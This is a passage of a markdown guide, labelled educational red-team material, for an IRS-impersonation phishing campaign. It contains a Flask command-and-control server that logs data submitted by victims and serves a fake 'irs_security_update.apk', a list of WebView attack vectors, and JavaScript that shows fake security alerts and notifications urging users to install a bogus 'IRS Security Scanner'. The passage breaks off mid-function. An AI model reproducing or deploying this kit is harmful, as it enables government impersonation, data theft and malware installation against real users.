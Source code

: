 ### 3. Data Collection Endpoint
```python
# simple_c2.py - Educational data collection
from flask import Flask, request, jsonify
import json
import datetime

app = Flask(__name__)

@app.route('/collect', methods=['POST'])
def collect_data():
    data = request.json
    timestamp = datetime.datetime.now().isoformat()
    
    # Log collected data for exercise analysis
    with open('redteam_data.json', 'a') as f:
        json.dump({
            'timestamp': timestamp,
            'data': data,
            'source_ip': request.remote_addr,
            'user_agent': request.headers.get('User-Agent')
        }, f)
        f.write('\n')
    
    return jsonify({"status": "success", "message": "Payment processing..."})

@app.route('/download/irs_security_update.apk')
def download_apk():
    return send_file('irs_security_update.apk', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

## Mobile Attack Vectors (Educational)

### 1. WebView Exploitation
- JavaScript bridge abuse
- File system access
- Intent scheme attacks
- Cross-origin bypass

### 2. Social Engineering Vectors
```javascript
// Enhanced social engineering prompts
function deployAdvancedSocialEng() {
    // Fake security warning
    setTimeout(() => {
        alert('Security Alert: Suspicious activity detected on your device.\n\nInstall IRS Security Scanner to protect your information.');
    }, 3000);
    
    // Fake system notification
    if ('Notification' in window) {
        Notification.requestPermission().then(permission => {
            if (permission === 'granted') {
                new Notification('IRS Security Update', {
                    body: 'Critical security update required. Tap to install.',
                    icon: '/favicon.ico'
                });
            }
        });
```